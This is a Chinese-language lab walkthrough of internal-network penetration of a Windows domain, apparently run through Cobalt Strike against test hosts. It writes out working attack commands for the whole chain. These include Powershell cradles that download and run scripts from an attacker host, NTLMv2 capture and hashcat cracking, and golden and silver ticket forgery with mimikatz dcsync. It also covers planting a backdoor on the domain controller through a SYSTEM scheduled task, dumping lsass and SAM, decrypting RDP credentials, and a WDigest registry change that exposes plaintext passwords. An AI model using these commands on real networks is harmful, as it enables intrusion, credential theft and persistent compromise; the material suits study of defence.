# 内网渗透

## 第二章 内网信息收集

### 自动收集本地信息

自己编写的test.bat脚本文件，只需在后渗透过程中导入该文件到靶机，并执行即可。具体脚本解释参考PDF笔记。

```
@echo off
echo ###############网卡信息############### >1.txt
ipconfig >>1.txt
echo ##############操作系统版本信息################ >>1.txt
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" >>1.txt
systeminfo| findstr /B /C:"OS 名称" /C:"OS 版本" >>1.txt
echo ##############CPU架构信息################ >>1.txt
echo %PROCESSOR_ARCHITECTURE% >>1.txt
echo ##############服务列表信息################ >>1.txt
wmic service list brief >>1.txt
echo ##############进程列表信息################ >>1.txt
wmic process list brief >> 1.txt
echo ###############用户名信息################### >>1.txt
wmic useraccount get name,SID >>1.txt
echo ##############端口信息################ >>1.txt
netstat -ano >>1.txt
echo ##############RDP端口信息################ >>1.txt
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Winstations\RDP-TCP" /V PortNumber >> 1.txt
echo ##############ARP端口信息################ >>1.txt
arp -a >> 1.txt
```

注意右键单击session中的sleep，设置休眠时间为1，不然运行命令要休眠很久。

	

对win2008右键explore中的File Browser

	

上传该文件到靶机。

	

执行这个bat脚本文件。

	

查看输出文件内容，可以查看到所有的信息。

	

除此之外也可以使用pdf笔记里面的其他脚本，把这些代码复制到bat执行即可生成一个网页文件。查看这个网页文件输出的本地信息更加标准化。

	

### 内网IP扫描技术

NetBios该程序对给出范围内的每一个地址发送NetBIOS状态查询，并且以易读的表格列出接收到的信息，对于每个响应的主机，NBTScan列出 它的IP地址、NetBIOS计算机名、登录用户名和MAC地址。

用cs上传该扫描程序到靶机(winserver2008)上。

	

扫描出所有的内网ip存活的主机。

	

同理可以把arp.exe文件上传到靶机。然后在cs执行该内网ip扫描文件

	

kscan是一款资产测绘工具，可针对指定资产进行端口扫描以及TCP指纹识别和Banner抓取，在不发送更多的数据包的情况下尽可能的获取端口更多信息。并能够针对扫描结果进行自动化暴力破解， 且是go平台首款开源的RDP暴力破解工具

同理上传到靶机，然后通过cs执行扫描内网ip	

	

可以扫描出ip和对应的操作系统。

	

fscan一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。支持主机存活探测、端口扫描、常见服 务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、 web漏洞扫描、netbios探测、域控识别等功能。

同理上传到靶机，cs运行即可。

	

可以看到哪些内网主机活着，以及对应的哪些端口有开放。

	

并且也扫描出两个内网主机的操作系统类型。

	

ladon一款用于大型网络渗透的多线程插件化综合扫描神器，含端口扫描、服务识别、网络资产、密 码爆破、高危漏洞检测以及一键GetShell.当然该工具其实功能很多，具体可以参考pdf笔记文档。

同理上传到靶机，cs运行即可。

	

扫描出的内网ip如下。

	

### 内网端口扫描技术

ScanLine是一款windows下的端口扫描的命令行程序。它可以完成PING扫描、TCP端口扫描、UDP端口扫描等功 能。运行速度很快，不需要winPcap库支持，应用场合受限较少。

将这个程序上传到靶机，然后运行。

```
shell ScanLine.exe -bhpt 21-23,25,80,110,135-139,143,443,445,1433,1521,3306,3389,5556,5631,5900,8080 192.168.15.145

‐b指获取端口横幅
‐h隐藏没有开放端口的系统的结果
‐p扫描前不要 ping 主机
‐t扫描的TCP端口（以逗号分隔的端口/范围列表）
```

扫描出server2008靶机有三个端口

	

也可以这么扫描。

```
shell Scanline.exe -bhpT 192.168.15.145
-T使用 TCP 端口的内部列表
```

	

第二种使用telnet协议进行端口探测。

Telnet协议是TCP/IP协议族的一员，是Internet远程登录服务的标准协议和主要方式。它为用户提供了在本地计算 机上完成远程主机工作的能力。在目标计算机上使用Telnet协议，可以与目标服务器建立连接。如果只是想快速探 测某台主机的某个常规高危端口是否开放，使用telnet命令是最方便的

由于靶机没有telnet命令，需要安装服务端和客户端。

	

如果直接使用telnet探测一个没有开放的端口会连接失败。由于cs还是识别不出telnet命令，于是只能在靶机演示端口扫描。

	

RedTeamTool中有一个本地端口扫描的工具portscan.exe,上传该文件到靶机。

该命令是扫描本机1-5000的端口是否开启。

	

PowerSploit是一款基于PowerShell的后渗透框架软件，包含了很多PowerShell的攻击脚本，它们主要用于渗透中 的信息侦测，权限提升、权限维持等。

首先需要把该模块的这个文件，放入到靶机。

	

于是即可通过powershell命令执行端口扫描。

```
shell powershell -exec bypass Import-Module .\Invoke-Portscan.ps1;Invoke-Portscan -Hosts 192.168.15.0/24 -T 4 -ports '445,8080,3389,80' -oA c:\1.txt

-T是指线程数量
-oA把扫描结果放到一个文件中。
```

	

比如扫描出192.168.15.1的端口有哪些是开放的。

	

	

除了可以本地执行，也可以使用PowerSploit进行远程扫描。kali先把这个扫描的脚本放到一个目录，然后在当前目录启用http服务。

		

可以从kali本机获取powerSpolit的扫描脚本信息，然后运行。

```
shell powershell -exec bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.15.141:8089/Invoke-Portscan.ps1');import-module .\Invoke-Portscan.ps1;Invoke-Portscan -Hosts 192.168.15.0/24 -T 4 -ports '445,8080,3389,80' -oA c:\1.txt
这里无非就是从kali取出扫描脚本，然后导入运行。
```

	

扫描结果。

	

也可以使用Nishang进行端口扫描。

首先执行该命令确保powershell可以导入脚本模块。

	

Nishang是一款针对PowerShell的渗透工具。说到渗透工具，那自然便是老外开发的东西。国人开发的东西，也不 是不行，只不过不被认可罢了。不管是谁开发的，既然跟渗透有关系，那自然是对我们有帮助的，学习就好。来源 什么的都不重要。总之，nishang也是一款不可多得的好工具。非常的好用。

由于nishang运行，不是单独一个exe文件，而是整个文件夹，所以上传nishang.zip压缩包到靶机。

	

在上传解压缩的exe文件。

	

解压压缩包。

	

由于winserver2008运行有误，于是把该文件放到winserver2012则可以实现成功。

```
shell powershell -command "& { import-module .\nishang\nishang.psm1; Invoke-PortScan -StartAddress 192.168.15.140 -EndAddress 192.168.15.145 -ResolveHost -ScanPort -Port 445 }"
使用nishang的扫描模块，并且在指定的ip范围内扫描445端口。
```

	

扫描结果如下，但是这里没有完整运行成功。

	

KScan也可以拿来扫描端口

		

	

fscan扫描端口

	

	

### 域内基础信息收集

具体的知识点还是要查看pdf文档。

==注意:加过域的主机，system用户可以看作域用户，可以查看域信息，而本地管理员不能查看域信息，但是有的时候需要降权到administrator来查看一些本地信息，这是system用户做不到的。==

可以使用whoami查看用户信息，比如下面这个就是域控管理员。

	

#### 判断域存在的方法

可以查看dns信息来看是否加入域。

	

然后通过反向解析查询是否dns服务器和域控制器是一台机器。

	

也可以这么查看是否加入域。

	

也可以这么查看，如果查看失败显示找不到域控，则说明未加入域。

	

net view显示域列表、计算机列表或指定计算机的共享资源列表。

这里域中的共享资源列表没查到。如果不加/domain，则表示查看本地的共享资源。

	

可以使用net user创建用户

	

查看本地的用户。

	

查看域的用户有哪些，只需加个/domain

	

Net Use 作用：连接计算机或断开计算机与共享资源的连接，或显示计算机的连接信息。

这里查看连接信息为空。当然除了查看连接信息，也可以拿来远控。

	

查看本地组的信息。

	

可以进一步查看某个组里面的用户有哪些

	

	

查看域用户组

	

查看域用户组的具体用户

	

查看域的所有计算机

	

获取域密码信息，获取域密码策略、密码长度、错误锁定等信息

	

获取域信任信息。

	

### 查找域控制器

查找域控制器的机器名

	

获取域控制器机器名后，然后使用nslookup反向解析获取ip

	

在通常情况下,时间服务器为主域控制器。这样也可获取域控制器的机器名。

	

查看域控制器组中有哪些域控制器的主机，因为一般情况下域控制器可能会有主备的情况，所以这样查最好。

	

### 查找域内用户

当对一个命令不熟，可以在后面加上/?来作为提示。

	

可以通过wmic命令获取域用户的详细信息

	

		

简要查询域用户信息。

	

还有别的方式，比如执行如下命令,可以看到,域内用户（server机器有这个命令）

	

也可以查看域有哪些ou组织单元。

	

查询域管理员用户

	

### 定位域管理员

当查询到域管理员的账户，就需要定位域管理员登陆的域计算机在哪里。

接下里使用psloggedon.exe工具，它可以显示本地登录的用户和通过本地计算机或远程计算机的资源登录的用户。如果指定了用户名 而不是计算 机，psloggedon.exe 会搜索网络邻居中的计算机，并显示该用户当前是否已登录。

把工具上传到靶机。

	

可以指定计算机名，去查询哪些用户登陆过该计算机。

	

也可以指定用户登录过哪些计算机。但是以上两个操作复现失败。工具扫描不出。

	

接下里使用另一个工具，pveFindADUser.exe 可用于查找 Active Directory 用户登录的位置，枚举域用户，以及查找在 特定计算机上登录 的用户，包括本地用户、通过RDP 登录的用户、用于运行服务和计划任务的用户账 户。运行该工具的计算机需要 具有.NETFramework 2.0，并且需要具有管理员权限。

该工具有个缺陷需要.NETFramework 2.0，所以在域控制器上运行不了。

可以查看当前主机有哪些用户登录，这里查找到jack域管理员登陆过该主机。

	

netview.exe 是一个枚举工具，使用 WinAPI 枚举系统，利用NetSessionEnum找寻登陆会话，利NetShareEnum 找寻共享，利用NetWkstaUserEnum枚举登陆的用户。同时，netview.exe 能够查询共享入口和有价值的用户。 netview.exe的绝大部分功能不需要管理员权限就可以使用。

也可以使用该工具来扫描域中的主机被哪些用户登录。比如指定hack域下的主机被谁访问过，但是这个工具什么都没扫描出来。

		

PowerView 脚本中包含了一系列的 powershell 脚本，信息收集相关的脚本有 Invoke-StealthUserHunter、 Invoke-UserHunter 等。

将脚本放到靶机，然后运行。

	

于是即可查找到域管理员登陆过192.168.15.140

		

	

### Powershell基础

Powershell 是运行在windows机器上实现系统和应用程序管理自动化的命令行脚本环境。你可以把 它看成是命令行提示符cmd.exe的扩充，不对，应当是颠覆。 powershell需要.NET环境的支持，同 时支持.NET对象。微软之所以将Powershell 定位为Power，并不是夸大其词，因为它完全支持对 象。其可读性，易用性，可以位居当前所有shell之首。

可以列举文件，按名字排序，并按照表格形式输出。

	

写入内容到文件，并查看。

	

可以使用powershell执行cmd的命令

	

powershell内部命令很多，可以查看pdf

Powershell一般初始化情况下都会禁止脚本执行。脚本能否执行取决于Powershell的执行策略

	

四种权限的解释

	

随便写一个简单脚本。然后运行。

	

	

也可以设置脚本的运行策略。

	

### powershell收集域内信息

PowerSploit是GitHub上面的一个安全项目，上面有很多powershell攻击脚本，它们主要被用来渗 透中的信息侦察、权限提升、权限维持。

powerview也是一款非常的powershell脚本工具，用于域内信息的收集。他集成在在 PowerSploitmaster\Recon目录下。

首先把powerview.ps1脚本上传到靶机。

```
shell powershell.exe -exec bypass -command "& {import-module .\PowerView.ps1;Get-Command -Module PowerView}"
加载这个脚本并查看该脚本有什么命令。
```

但有的脚本可能无法查看有什么命令，有的脚本则可以，像下面这个就没有显示。当然具体这个模块有什么命令，可以查看pdf笔记。

	

比如查看有什么网络共享资源。

	

除了本地执行这个脚本，也可以远程执行，kali将脚本放置一个目录下，然后在该目录开启http服务。

	

远程执行也可以。

```
shell powershell.exe -exec bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.15.141:8089/PowerView.ps1');import-module .\PowerView.ps1;Get-Netshare
主要就是从kali获取脚本信息，然后执行。
```

	

除此之外，也可以把脚本放到本地cs来运行。把脚本放到cs的根目录下。

	

使用cs自带的导入命令，即可从cs根目录导入powershell的脚本文件。

	

这样该脚本就被导入到cs中，那么cs就可以直接使用该脚本的命令。

	

也可以通过该脚本的命令直接获取域控制器的ip。

	

接下里讲另外一个工具nishang,首先将整个Nishang工具包上传到靶机。

由于winserver2008无法直接在cs修改脚本运行策略,而winserver2012可以，所以这里再winserver2012运行。

```
shell powershell Import-Module .\nishang\nishang.psm1;Get-Command -Module nishang
导入Nishang,并且查看Nishang模块有哪些命令可以用。
```

	

于是即可查看到很多可以用的命令。

	

检查是否是虚拟机

```
shell powershell Import-Module .\nishang\nishang.psm1;Check-VM
```

	

查看该靶机主机的详细信息。

```
shell powershell Import-Module .\nishang\nishang.psm1;Get-Information
```

接下来通过导入到cs，首先需要把nishang目录放到cs根目录下，然后导入后即可执行命令

	

抓取该主机的用户密码信息

```
powershell Invoke-Mimikatz
```

但是目前抓取的密码信息为空。后续章节来填坑。

	

## 第三章Windows认证和密码的抓取

#### Windows网络认证之基于挑战响应认证的NTLM协议

首先确保server2012清空所有的网络连接。

	

把这个工具的整个目录上传到靶机server2012

		

使用该模块的一个函数来抓取NTLMV2认证的数据。

	

于是server2012(192.168.15.140)开始连接server2008(192.168.15.145)

账号是jack，密码是被擦除的那段。

	

于是当连接开始，就会抓取到这个NTLMV2的数据。

	

```
NTLMV2的数据格式:
username::domain:challenge:HMAC‐MD5:blob

jack::HACK:90291D4A4BED2C07:E745ED3277D5430FD4380BAA97421CA2:01010000000000009FE1AB13E716DB0102312B17A445F8BA00000000020008004800410043004B000100140053004500520032003000300038002D0030003100040010006800610063006B002E0063006F006D000300260073006500720032003000300038002D00300031002E006800610063006B002E0063006F006D00050010006800610063006B002E0063006F006D00070008009FE1AB13E716DB0106000400020000000800300030000000000000000000000000300000A11336D638E4519BB39DD2CC31D2CA99EC0823CE1170F4EC7EEE51CD24F4AC840A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00310035002E00310034003500000000000000000000000000
```

于是即可使用hashcat暴力破解密码。

首先准备密码本

	

 	

并且把哈希值放入到一个文件中。不然可能会出写命令过长，无法执行的情况。 

	

-m参数指定要爆破的类型，其中5600是NTLMV2的哈希值。

	

开始爆破

	

于是密码被爆破出来了。

	

#### 黄金票据利用

```
TGT的加密就是Krbtgt的NTLM hash 加密
1、Kerberos中的TGT和Logon Session Key（CT_SK）是AS返回的 ，TGT它是由Krbtgt加密和签名的 ,krbtgt的
NTLM Hash又是固定的,而CT_SK并不会保存在KDC中。
2、所以只要得到krbtgt的NTLM Hash，就可以伪造TGT和Logon Session Key（CT_SK）。
3、Client与TGS的交互中，而已有了金票后（TGT）,就跳过AS验证,不用验证账户和密码,所以也不担心域管密码修
改。
当我们获得域控的控制权限后，有可能获取域内所有用户的hash，和krbtgt的hash。这时，由于一些原因导致我
们失去对目标的控制权，但是我们还留有一个普通用户的权限，并且krbtgt的密码没有更改，此时我们可以利用
krbtgt用户的ntlm hash制作黄金票据伪造TGT，重新获取域控的管理权限。

但是注意，如果krbtgt用户密码被修改，那么对应的NTLM Hash就会发生改变，那么就无法伪造黄金票来绕过TBS了。
```

黄金票据主要是用于权限维持的，比如当域控制器的后门被删除后，并且域控管理员被修改密码，可以使用黄金票据绕过AS的验证，伪造票据TGT进行验证。从而再次上线后门文件到域控制器上。

	

首先获取到域的SID号，前面都是SID，最后面的500是UID。

	

获得域名称。

	

使用mimikatz导出krbtgt用户的ntlm hash

```
mimikatz lsadump::dcsync /domain:hack.com /user:krbtgt
命令详解:
其中lsadump:dcsync是mimikatz的一个模块，/domain指定查找的目标域,/user指定获取NTLM哈希的账户。
```

	

	

假设此时192.168.15.140(域控制器被管理员发现，并把后门删除了，失去了控制)

	

此时即可利用上面三个关键信息来生成黄金票据TGT。

右键点击Access中的golden Ticket。生成黄金票据。

==注意:需要system用户才能复制后门文件到域控。==

	

这里显示创建成功。

	

于是即可使用黄金票据来绕过kerberos的网络验证，来查看域控的c盘内容。

	

紧接着利用server2008靶机把后门传入到域控制器上。

```
shell copy c:\Users\administrator\desktop\shell.exe \\dc.hack.com\c$
```

由于server2008的jack用户不能复制，需要提权成system用户才能复制文件到域控制器。

	

创建一个计划任务

```
shell schtasks /create /s dc.hack.com /tn test /sc onstart /tr c:\shell.exe /ru system /f

/s指定远程主机名，/tn指定定时任务名称，/sc指定触发定时任务的方式,/tr指定要运行的脚本,/ru指定运行的用户是system,/f强制创建定时任务
```

	

运行计划任务。

	

于是又可以控制域控制器了。

	

#### 白银票据利用

服务账号就是计算机名字+$用来管理服务的账号

如果说黄金票据是伪造的TGT,那么白银票据就是伪造的ST。 在Kerberos认证的第三步，Client带着ST和
用户信息向Server上的某个服务进行请求，Server接收到Client的请求之后,通过自己的server密码，解密ST,
从而获得 Session Key。通过 Session Key 解密 用户信息，进而验证对方的身份,验证成功就让 Client 访问
server上的指定服务了。所以我们只需要知道Server用户的Hash就可以伪造出一个ST,且不会经过KDC,但是伪造的
门票只对部分服务起作用。

白银票据的好处在于可以绕过整个KDC，即哪怕krbtgt改密码，也不受影响，但是服务改密码会受影响。缺点在于只能访问某个服务器的某个服务，而黄金票据可以使用所有的服务。

==注意服务的NTLM哈希和域管理员的NTLM哈希不是一个东西。==

伪造白银票据的五个条件。

	

获取域sid.

	

获取域名。

	

获取服务账号的ntlm hash值

```
mimikatz sekurlsa::logonpasswords
```

	

	

首先server2008删除所有票据。

	

如果直接想要得到krbtgt的NTLM哈希是得不到的。

	

伪造白银票据

```
mimikatz kerberos::golden /domain:hack.com /sid:S-1-5-21-944010055-1767279935-531308103 /target:dc.hack.com /service:LDAP /rc4:6a0f8e71f9cff6a18f6c52c7502208f7 /user:aaa /ptt

/sid指域的id,/target域控制器的服务名称，/service指定访问的服务,/rc4指定服务账号的NTLM哈希，/user账户随便伪造，/ptt创建票据并自动注入到内存。
```

	

此时重新执行查询krbtgt的NTLM哈希。原因在于伪造了白银票据，开放了其中的LDAP服务，那么就可以随便的使用域控制器中的LDAP服务，那么自然也就可以查找这个NTLM哈希。

那么获得了该账户的哈希，那么就又可以构造黄金票据了。

	

	

#### Mimikatz介绍和离线抓取sam文件

Mimikatz是法国人benjamin开发的一款功能强大的轻量级调试工具，但由于其功能强大，能够直接读取 WindowsXP-2012等操作系统的明文密码而闻名于渗透测试，可以说是渗透必备工具，mimikatz可以从内存中提 取明文密码、哈希、PIN 码和 kerberos 票证。 mimikatz 还可以执行哈希传递、票证传递或构建黄金票证。如今mimikatz已经内置到cs上。

比如可以把让mimikatz提权。这样可以使用的命令会更多。

	

也可以mimikatz运行文件。

	

mimikatz有很多命令，具体参考pdf文档。

离线抓取sam文件

可以使用reg命令无工具导出

	

导出的两个文件就是sam的密码文件。

	

把这两个文件右键download下载到kali.

	

在cs的download目录下的这两个文件就是下载的sam文件。

	

于是即可把这两个文件下载到本地去读取，并把名字修改。使用mimikatz工具读取。

		

读取sam文件。

	

于是即可读出本地管理员的密码哈希。

	

#### 在线读取sam和lsass文件

在线读取sam文件，sam存放的是密码加密后的内容。

由于mimikatz在cs不能直接执行这三个命令，这三个命令同时执行才能成功。所以只能借助传入mimikatz工具到靶机。

	

获得管理员的密码哈希。

	

在线读取lsass文件，lsass文件的是密码明文内容。

	

	

#### 离线读取lsass文件

离线读取lsass文件会更好，这样获取到lsass文件后，基本上就能读取到明文密码，在线使用工具读取可能会失败。并且工具可能会被杀软干掉。

离线读取有几种方式。

其中第一种使用任务管理器。前提条件可以远程连接靶机。

找到lsass进程，右键创建转储文件。保存到硬盘上，然后下载到本地读取。

	

	

	

第二种方式，使用procdump 导出lsass.dmp文件

ProcDump 是一个命令行实用工具，其主要用途是在管理员或开发人员可用于确定峰值原因的峰值期间监视 CPU 峰值和生成故障转储的应用程序。 ProcDump 还包括使用窗口挂起 (使用相同的窗口挂起定义，Windows任务管 理器使用) 、未经处理的异常监视，并且可以根据系统性能计数器的值生成转储。 它还可用作可在其他脚本中嵌入 的常规进程转储实用工具。==因为是微软的所以一般不会被杀软杀掉。==

上传该工具到靶机上。

	

使用该工具把lsass进程的内容转储到磁盘中。

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

-accepteula参数指避免第一次运行时弹出许可协议窗口
-ma参数告诉 procdump 创建一个包含所有内存页的完整转储文件（完整内存转储）。
```

这个工具运行失败，可以换成system用户来运行。

	

于是可以使用kali下载到本地。

	

第三种方式，使用PowerSploit 的Out-MiniDump模块，PowerSploit是一个基于 Powershell 的渗透工具包，可以选择创建 进程的完整内存转储。

把这个powershell脚本放到cs的根目录，并加载。

	

		

把lsass进程内存的数据转储到磁盘上。

```
powershell Get-Process lsass|Out-Minidump
```

	

	

第四种方式，comsvcs.dll，系统自带。通过comsvcs.dll的导出函数MiniDump实现dump内存

该方式没有复现成功。

	

```
格式:shell rundll32 C:\Windows\System32\comsvcs.dll, MiniDump 进程PID C:\lsass.dmp full
```

	

根据以上四种方式随便其中一种获取到lsass.dmp文件，于是即可使用mimkatz读取。

		

先指定要读取的文件是lsass_544.dmp，然后读取里面的内容。

```
sekurlsa::minidump lsass_544.dmp
sekurlsa::logonPasswords full

minidump可以用来指定内存转储的文件
```

	

不过读取的明文密码为空，可能是dc安全性比较强，但是win2008是可以读取明文密码的。

	

#### hashcat暴力破解NTLM Hash

该命令可以查看用户的NTLM哈希值。

	

	

-m 1000专门用于破解NTLM哈希值。

	

将其中的NTLM哈希取出来，然后即可开始爆破，其中1.txt是字典。

	

于是密码被爆破出来了。

	

除此之外可以使用在线网站或者彩虹表来暴力破解。

#### 游览器、数据库等其他密码的抓取

当执行这个程序的时候，就会抓取所有的游览器数据。

	

会把抓取的密码、cookie、书签、以及历史记录全部保存在result目录下。那么可以把这个文件上传到靶机去运行抓取数据。

	

SharpDecryptPwd工具可以抓取数据库的账号和密码。

	

可以抓取常见sql的账号和密码。

	

这是能抓取数据库的常见使用方法。

	

#### Windows RDP凭证的抓取和密码破解

破解原理:Credentials的解密是Windows系统信息收集中非常重要的一环，其中包括各类敏感、重要的凭证（这个可以理解为密码），接下来我们就讲解RDP凭证的抓取和破解在我们点击保存密码后，Windows就通过MasterKey将我们的密码加密后保存在本地，由于Windows还需要解密 从而使用，所以这个过程是可逆，也正因为这一缘由，我们只要拿到MasterKey就能将密码解出来。

server2008远程连接域控制器。

	

此时server2008可以查找到RDP的凭证，这个凭证显示使用域管理员进行登录。

	

首先使用在线破解的方式，不过该方式易于被杀软发现。

于是查找RDP凭证文件，复制其凭证文件名。

```
dir /a %userprofile%\appdata\local\microsoft\credentials\*
```

		

查找这个凭证masterkey的guid号。

```
mimikatz dpapi::cred /in:C:\Users\Administrator\AppData\Local\Microsoft\Credentials\D84905902A5E91FD6B7C45BD93050440

其中D849...这个是凭证的名字。
```

	

		

查找内存中的masterkey。

```
mimikatz sekurlsa::dpapi
```

	

找到指定guid的masterkey，把这个key复制下来。

	

最后打开mimikatz通过MasterKey值去解密凭据文件

```
mimikatz dpapi::cred /in:C:\Users\Administrator\AppData\Local\Microsoft\Credentials\D84905902A5E91FD6B7C45BD93050440 /masterkey:2e901389899c4eea3d02f22775c956bd5f0da33aef9e5a6b80dd7915192d3d2360e4723f016790f10110d21e007a2bc6a9b032009fe0e690b2fed021dc4a6e81

/in参数指定凭证文件路径，/masterkey是对应的guid的内存key
```

	

于是即可获得密码。

	

第二种方式是离线破解，由于我们不能保证我们的mimikatz是免杀状态，为了避免被对方发现，我们可以离线解密从而达到获取密码的目 的其实很简单，就是把目标的文件和内存下载回来，在本机上进行mimikatz解密即可。

首先将procdump工具上传到靶机，这个工具是微软自己做的，所以很难被杀软干掉。

	

将lsass.exe的内存数据保存到当前目录。

```
procdump.exe -accepteula -ma lsass.exe lsass1.dump
```

	

下载这个内存数据和RDP凭证文件。

	

	

把两个文件放到本地，凭证文件由于是隐藏文件，所以这里没有看到，实际上已经在该目录下。

	

用mimikatz载入dump回来的内存

```
Sekurlsa::minidump lsass1.dump
```

	

获取Credentials的GUID

```
dpapi::cred /in:D84905902A5E91FD6B7C45BD93050440
```

	

获取内存中所有的MasterKey

```
sekurlsa::dpapi
```

查找到对应的masterkey

	

利用masterkey解密得到密码

```
dpapi::cred模块是用于解密一个受保护的凭据文件
dpapi::cred /in:D84905902A5E91FD6B7C45BD93050440 /masterkey:2e901389899c4eea3d02f22775c956bd5f0da33aef9e5a6b80dd7915192d3d2360e4723f016790f10110d21e007a2bc6a9b032009fe0e690b2fed021dc4a6e81
```

	

#### Server2012之后抓取密码的方式

使用logonpasswords是无法直接查看到server2012及以后操作系统的明文密码。

在Windows2012系统及以上的系统，默认在内存缓存中禁止保存明文密码的。攻击者可以通过修改注册表的方式 抓取明文，需要用户重新登录后才能成功抓取。

需要修改注册表，让其允许保存明文密码。

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
也可以关闭，即不允许保存明文密码。
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

	

但是需要锁屏，注册表修改，必须让用户重新登陆这个主机才能生效。

```
rundll32.exe user32.dll,LockWorkStation
```

	

那么域控管理员需要重新登陆。

	

	

当然还有另一种方法，可以锁屏。首先查询这个会话id。

	

然后关闭这个会话，就会锁屏

	

## 第四章 内网横向移动

### 利用向日葵横向移动

由于此向日葵版本过老，未复现成功。

首先把向日葵上传到靶机，这个向日葵必须是指定版本的。

	

先分析点击这个向日葵，会弹出这个框，点击暂不安装

	

当点击这个按钮后，注册表会自动生成一些内容。

	

那么有了注册表的这些内容，就会使得下次打开向日葵不会出现安装弹窗，那么思路就是在黑客上传该文件之前，把注册表先写入到计算机，这样就可以运行向日葵而不出现安装弹窗。

